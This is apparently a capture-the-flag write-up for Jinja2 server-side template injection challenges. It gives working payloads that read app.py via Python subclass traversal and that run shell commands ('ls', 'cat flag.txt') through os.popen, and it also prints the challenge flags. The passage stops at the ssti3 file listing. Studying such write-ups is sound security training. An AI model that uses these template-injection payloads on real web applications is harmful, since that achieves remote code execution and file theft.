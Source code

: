 ```py
```

flag: ```BFS{WelC0m3_To_Th1s_F1rSt_PyTh0n_Vuln3rab1l1ty}```

# ssti2

## What it is

Same as ssti1 but flag is not in app.py

## Solution

```_io._IOBase``` is not exactly in the same place:
```py
{{'abc'.__class__.__base__.__subclasses__()[106].__subclasses__()[0].__subclasses__()[0]('app.py').read()}}
```

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/#rce-bypassing-as-much-as-i-possibly-can

Using the request object we can get access to the ```os``` module and do some IO.

List files in the current directory:
```py
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

Result:
```
app.py
config.py
flag.txt
index.html
```

To open ```flag.txt```:
```py
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```

flag: ```BFS{w0w_1_C4n_R3ad_Fl4g_W1th_Pyth0n_SST1}```

# ssti3

## What it is

Same as ssti2 but flag is not in app.py or in a file.

Files in the directory:
```
app.py
config.py
getFlag
index.html
```
